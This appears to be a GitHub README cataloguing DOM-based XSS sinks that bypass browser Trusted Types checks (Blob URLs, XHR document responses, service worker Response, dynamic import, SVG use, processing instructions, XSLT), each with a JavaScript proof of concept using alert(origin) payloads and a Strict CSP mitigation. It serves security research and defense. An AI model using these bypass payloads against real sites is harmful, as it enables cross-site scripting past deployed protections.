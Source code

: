 # Cursed Types

This repo contains list of DOM-based XSS sinks which are not subject to [Trusted Types](https://web.dev/trusted-types/) checks. Contributions welcome! 😊

## Blob URL

Trusted Types enforced on a document will be inherited to Blob URL when navigating to Blob URL. However, resulting document of the Blob URL contains stored XSS payload, and therefore it bypasses Trusted Types check.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/blob_url.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const blob = new Blob([attackerControlledString], {type: 'text/html'});
const url = URL.createObjectURL(blob);
location.href = url;
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- There is a discussion to provide an option for creating a [secure Blob URL](https://github.com/w3c/FileAPI/issues/74).

## XHR document response

XMLHttpRequest (XHR) supports [`document` response type](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/HTML_in_XMLHttpRequest), which returns parsed document of XHR response instead of text.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xhr_document.html):
```
let attackerControlledString = 'data:text/html,<img id=content src=x onerror=alert(origin)>';
const xhr = new XMLHttpRequest();
xhr.onload = function() {
  document.body.appendChild(this.response.querySelector('#content'));
}

xhr.open("GET", attackerControlledString);
// The following changes response type from text to parsed document.
xhr.responseType = "document";
xhr.send();
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- Only allow trusted endpoints in [CSP connect-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src).

## Response API

[Response API](https://developer.mozilla.org/en-US/docs/Web/API/Response/Response) can be used in several places to serve a response of a request through Service Worker. If the Response is generated from user input, this could result in Trusted Types bypasses.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/service_worker_response.html):
```
self.addEventListener('fetch', event => {
  const params = new URLSearchParams(event.request.url.split('?')[1]);
  let attackerControlledString = params.get('attackerControlledString');
  
  if (attackerControlledString) {
    init = {
      headers: {
        'Content-Type': 'text/html',
        'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"
          
      }
    };
    event.respondWith(new Response(attackerControlledString, init));
  }
});
```

```
// Assuming legit service worker returns cached content.
caches.open("v1").then(cache => {
  let attackerControlledString = '<img src=x onerror=alert(origin)>';
  init = {
    headers: {
      'Content-Type': 'text/html',
      'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"

    }
  };
  cache.put('xss', new Response(attackerControlledString, init));
})
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## Non-DOM API based script loading

[Non-DOM API based script loading](https://github.com/w3c/webappsec-trusted-types/issues/232) currently bypasses Trusted Types.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/script_loading.html):
```
let attackerControlledString = 'data:application/javascript,alert(origin)';
import(attackerControlledString);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp) + serve allow-list of script endpoints in another `script-src` directive.

## SVG `<use>` element

[SVG `<use>`](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/use) element takes `href` attribute, which can import an external SVG image from given URL. This currently bypasses Trusted Types check. This was found by [Masato](https://twitter.com/kinugawamasato).


[PoC](https://shhnjk.github.io/PoCs/cursed_types/svg_use.html):
```
let attackerControlledString = 
    `data:image/svg+xml,
     <svg id="x" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
       <image href="x" onerror="alert(origin)" />
     </svg>#x`;
const svg = document.createElementNS('http://www.w3.org/2000/svg', 'svg');
const use = document.createElementNS('http://www.w3.org/2000/svg', 'use');
use.setAttributeNS('http://www.w3.org/1999/xlink', 'href', attackerControlledString);
svg.appendChild(use);    
document.body.appendChild(svg);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- This is likely to be fixed in the future ([reference](https://github.com/w3c/webappsec-trusted-types/issues/357)).

## document.createProcessingInstruction API

[`document.createProcessingInstruction`](https://developer.mozilla.org/en-US/docs/Web/API/Document/createProcessingInstruction) can create [processing instruction](https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction) node from given URL and content type. This node can be inserted to XML document (but not HTML document). Currently there is no Trusted Types check on `document.createProcessingInstruction`. This was found by [Masato](https://twitter.com/kinugawamasato).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/createProcessingInstruction.xml):
```
/*
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="html" />
  <xsl:template match="/">
    <script>alert(origin)</script>
  </xsl:template>
</xsl:stylesheet>
*/
let attackerControlledString = 'data:text/xml;base64,PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPHhzbDpzdHlsZXNoZWV0IHhtbG5zOnhzbD0iaHR0cDovL3d3dy53My5vcmcvMTk5OS9YU0wvVHJhbnNmb3JtIiB2ZXJzaW9uPSIxLjAiPgogIDx4c2w6b3V0cHV0IG1ldGhvZD0iaHRtbCIgLz4KICA8eHNsOnRlbXBsYXRlIG1hdGNoPSIvIj4KICAgIDxzY3JpcHQ+YWxlcnQob3JpZ2luKTwvc2NyaXB0PgogIDwveHNsOnRlbXBsYXRlPgo8L3hzbDpzdHlsZXNoZWV0Pg==';
const pi = document.createProcessingInstruction('xml-stylesheet', `href='${attackerControlledString}' type='text/xml'`);
document.insertBefore(pi, document.firstChild);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## XSLT

[XSLT](https://developer.mozilla.org/en-US/docs/Web/XSLT) supports [many elements](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element). Trusted Types is not enforced on at least [`<xsl:text>`](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element/text) element, but there are potentially more vectors. This was found by [Alex](https://twitter.com/insertScript).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xslt.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const doc = document.implementation.createHTMLDocument();
const xslt = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:stylesheet');
xslt.setAttribute('xmlns:xsl', 'http://www.w3.org/1999/XSL/Transform');
const template = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:template');
template.setAttribute('match', '/');
const output = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:output');
output.setAttribute('method', 'html');
xslt.appendChild(output);
const text = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:text');
text.textContent = attackerControlledString;
text.setAttribute('disable-output-escaping', 'yes');
template.appendChild(text);
xslt.appendChild(template);
const processor = new XSLTProcessor();
processor.importStylesheet(xslt);
const fragment = processor.transformToFragment(doc, document);
document.body.appendChild(fragment);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
